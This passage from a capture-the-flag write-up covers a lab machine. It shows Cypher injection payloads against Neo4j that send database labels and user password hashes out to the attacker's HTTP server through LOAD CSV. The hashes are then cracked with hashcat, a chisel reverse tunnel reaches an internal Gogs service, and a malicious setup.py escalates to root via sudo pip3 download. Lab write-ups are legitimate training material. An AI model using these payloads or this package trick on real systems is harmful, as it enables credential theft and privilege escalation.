

And by knowing from previous checks on LFI initially it was available as neo4j user we can see what can we do with neo4j. Now checking on our beloved BookHacktricks seems like this may be the way to go?

https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j

But to apply it we need to study a bit. So trying to get all the employees we can export them:



To make my life easier I will fetch the request with burp suite and sent it to Responder so I can try and try without the need to sent new request via browser...



Now here I tried manually some queries from Hacktricks but all of them either gave back error HTTP 500 or nothing so I really guess I have to setup a HTTP server and exfiltrate data via APOC.

Running the first query to get Neo4j version:



we get a HTTP 500 error on the main page but our server got something:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta]
└─# python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.11.210 - - [25/Apr/2023 10:18:22] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [25/Apr/2023 10:18:22] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

OK then after many try and catch I dumped all the labels on the machine, starting from this payload:



I had to edid the first part and use ***OR 1=1' OR 1=1*** and add the comment att the end to make it working. The reason for that was because I've seen that the only payload that worked was get version and it had that first part and comment so doing so it worked! Final payload was:

```SQL
' OR 1=1 RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.6:9000/?l='+label as l RETURN 0 as _0 //
```

```Bash
10.10.11.210 - - [25/Apr/2023 10:45:27] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [25/Apr/2023 10:45:27] "GET /?l=employee HTTP/1.1" 200 -
```

Now we know we have 2 labels, Employee seems not interesting cause we akready know them but what about users instead?

Using this payload:



And editing so to match the user laber in ***(f: xxxxx) *** it should be something similar:

```SQL
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.6:9000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

```Bash
10.10.11.210 - - [25/Apr/2023 10:57:45] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [25/Apr/2023 10:57:45] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [25/Apr/2023 10:57:46] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [25/Apr/2023 10:57:46] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1"
```

Ok seems like we have some users and it's password hashed, now we should be able to crack those passwords. Really guess is John the user we are insterested into:

`Neo4j uses SimpleHash by Apache Shiro to generate the hash.Neo4j uses SimpleHash by Apache Shiro to generate the hash.`

Running into Hashcat with Sha-256 mode we cracked those passwords:

```bash
Host memory required for this attack: 3 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918:admin
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: passwords.txt
Time.Started.....: Tue Apr 25 11:09:27 2023 (5 secs)
Time.Estimated...: Tue Apr 25 11:09:32 2023 (0 secs)
Kernel.Feature...: Pure Kernel
```

Seems like ssh is not working straight out a box:



but then I decided to make it work from inside RCE NC and we are in and we can grab our first flag:



* * *

## Road to Root.txt:

Now we have to move from John to Root and immediately we can see that John have some sudo permissions:

```Bash
john@only4you:~$ sudo -l
sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Trying to run manually the script seems like pip3 is trying to download all the tar.gz dependencies from localhost:3000.

Curling the website which is BTW accessible only from the inside seems like the website self hosted is Gogs an alternative of Gitea/Github:



We will use chisel and forward that to ourself so we can get a better view of it!

```Bash
www-data@only4you:/tmp$ ./chisel client 10.10.14.6:4321 R:3000:127.0.0.1:3000
./chisel client 10.10.14.6:4321 R:3000:127.0.0.1:3000
2023/04/25 09:43:35 client: Connecting to ws://10.10.14.6:4321
2023/04/25 09:43:35 client: Connected (Latency 41.2741ms)


┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# 2023/04/25 11:43:04 server: Reverse tunnelling enabled
2023/04/25 11:43:04 server: Fingerprint ltvE9rmFSHAGMfOCMVwPLHtzrjo27KMRdzpaFGENR3I=
2023/04/25 11:43:04 server: Listening on http://0.0.0.0:4321
2023/04/25 11:43:34 server: session#1: tun: proxy#R:3000=>3000: Listening
```

Now that a tunnel is setup we should be able to login via localhost:3000 :

Nice now is where the fun begins, reusing the John credentials we can login and possibly upload tar.gz of files:



The looking around stumbled upon this: https://programmersought.com/article/88053978258/

Tried to reuse the John's test repository and push my setup.py but it didn't worked out so I created my own repository with John account:



And now will add my setup.py to push but seems like all repository get deleted after a while so I guess I have to be fast or reuse that Test Repository. To do so I had to use git cmd since website was hanging so I first dumped the git locally:

```Bash
//Cloning repo
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta]
└─# git clone http://127.0.0.1:3000/john/Test.git
Cloning into 'Test'...
Username for 'http://127.0.0.1:3000': john
Password for 'http://john@127.0.0.1:3000':
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
Unpacking objects: 100% (3/3), 213 bytes | 213.00 KiB/s, done.

//Adding my setup file
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/Test]
└─# ll
total 8
-rw-r--r-- 1 root root  12 Apr 25 12:52 README.md
-rw-r--r-- 1 root root 660 Apr 25 12:52 setup.py

//Doing a git commit
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/Test]
└─# git commit
On branch master
Your branch is up to date with 'origin/master'.

Untracked files:
  (use "git add <file>..." to include in what will be committed)
        setup.py

nothing added to commit but untracked files present (use "git add" to track)


//Adding the file to the commit
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/Test]
└─# git add  setup.py

//Ucommenting the commit message
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/Test]
└─# git commit
Aborting commit due to empty commit message.

//Lastly pushing the changes to website
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/Test]
└─# git commit
[master 73b3703]        new file:   setup.py
 Committer: root <root@DESKTOP-1KSM320>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 23 insertions(+)
 create mode 100644 setup.py
```



Now that we see it's working we should try to setup a NC listener and invoke a Revshell:



Damn! It's not working, I guess is because the Test repository is private and asks for credentials so I will prepare everything on another folder as I thought on the beginning!

I read a bit about what we are looking for here: [https://pip.pypa.io/en/stable/cli/pip_download/#](https://pip.pypa.io/en/stable/cli/pip_download/ "https://pip.pypa.io/en/stable/cli/pip_download/#")

So my idea is to tar.gz compress that file and then upload it to a repository instead of a singular python file. I used this as reference on how to push my first repository manually from my machine: https://stackoverflow.com/questions/2337281/how-do-i-do-an-initial-push-to-a-remote-repository-with-git

```Bash
//Creating a repository on the server

//Preparing folder and doing first initialization
mkdir yovecio
cd yovecio
git init

//Adding the new file and first commit
git add setup.tar.gz
git commit -m "Initial commit"

//Add the destination path & push
git remote add origin http://127.0.0.1:3000/john/yovecio.git
git push origin master
```

For the exploit I decided to use this as reference: https://root4loot.com/post/pip-install-privilege-escalation/

And lastly when everything is up and running on the repository I should be able to invoke like this:

```Bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/yovecio/src/master/setup.tar.gz
```

EDIT: is still not working so I have to go back and read about how you package a Python package: https://python-packaging-tutorial.readthedocs.io/en/2018/setup_py.html

https://github.com/Preocts/python-module-template ***(here can you find a base module template)***



This is how a package structure should be with the shell code as well. Then I will install build module:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/shell]
└─# pip3 install build
Collecting build
  Downloading build-0.10.0-py3-none-any.whl (17 kB)
Requirement already satisfied: packaging>=19.0 in /usr/lib/python3/dist-packages (from build) (23.0)
Collecting pyproject_hooks
  Downloading pyproject_hooks-1.0.0-py3-none-any.whl (9.3 kB)
Installing collected packages: pyproject_hooks, build
Successfully installed build-0.10.0 pyproject_hooks-1.0.0
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv
```

And lastly build the package which should create us a ta.gz with the right folder structure for python to interpret it:



```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta/shell]
└─# tree
.
├── dist
│   ├── Shell-0.0.1-py3-none-any.whl
│   └── Shell-0.0.1.tar.gz
├── setup.py
├── shell
│   └── __init__.py
└── Shell.egg-info
    ├── dependency_links.txt
    ├── not-zip-safe
    ├── PKG-INFO
    ├── SOURCES.txt
    └── top_level.txt

4 directories, 9 files
```

After mant tries I gave up and tried again at home and apparently was my WSL kali who was causing all those troubles when I tried att home with my full Kali client everything worked out of the box.

BTW the solution I founsd was to use this as template for pip packages: https://github.com/wunderwuzzi23/this\_is\_fine_wuzzi/

Clone it locally and edit the setup.py and this was my final code:

```Python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("cp /root/root.txt /tmp/yovecio.txt;chmod 777 /tmp/yovecio.txt")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunDownloadCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "Shell",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'download' : RunDownloadCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Basically after many & many fails I realized that the code that worked was to run direct code on the victim with os.system library and easiest was to copy root.txt and the change permissions so john could read it!

The real fix was to use download under cmdclasses and not install cause we had possibility to download as sudo and not install..

Then compiling the file with python3 -m build

Uploading the file via git push to my repository

And lastly copying the url of that tar.gz file from raw address(VERY IMPORTANT)

Then eventually running this commando withing a minute otherwise everything were deleting:

```Bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/john/yovecio/raw/master/Shell-0.0.1.tar.gz
```

On downloading that made the copy of the root file :

```Bash
drwx------  3 root     root        4096 Apr 25 02:18 systemd-private-79a1eff1d74649aca796c20c56384776-upower.service-H26Puj/
drwxrwxrwt  2 root     root        4096 Apr 24 17:55 .Test-unix/
drwx------  2 www-data www-data    4096 Apr 24 21:09 tmux-33/
drwx------  2 root     root        4096 Apr 24 17:56 vmware-root_805-4257200540/
drwxrwxrwt  2 root     root        4096 Apr 24 17:55 .X11-unix/
drwxrwxrwt  2 root     root        4096 Apr 24 17:55 .XIM-unix/
-rwxrwxrwx  1 root     root          33 Apr 25 17:41 yovecio.txt*
```